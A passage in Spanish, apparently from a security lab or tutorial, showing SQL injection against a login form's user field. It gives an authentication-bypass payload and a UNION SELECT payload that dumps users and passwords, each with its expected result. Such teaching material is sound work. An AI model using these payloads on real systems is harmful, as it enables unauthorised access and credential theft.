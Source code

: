 Podemos inyectar infinidad de código. Entre ello, podemos hacer ataques de:


**Bypass de autenticación**

Para realizar la explotación, en el campo "Usuario" ingresar: 

~~~
' OR '1'='1' -- -
~~~

![](imagenes/sql11.png)

> Resultado esperado: Podré iniciar sesión sin necesidad de proporcionar credenciales válidas.




**Obtener credenciales de la base de datos**

Para llevar a cabo la explotación, ingresaré lo siguiente en el campo "Usuario":

~~~
' UNION SELECT NULL, usuario, contrasenya FROM usuarios #
~~~

> Resultado esperado: Se muestran todos los usuarios y contraseñas.

![](imagenes/sql12.png)
![](imagenes/sql13.png)
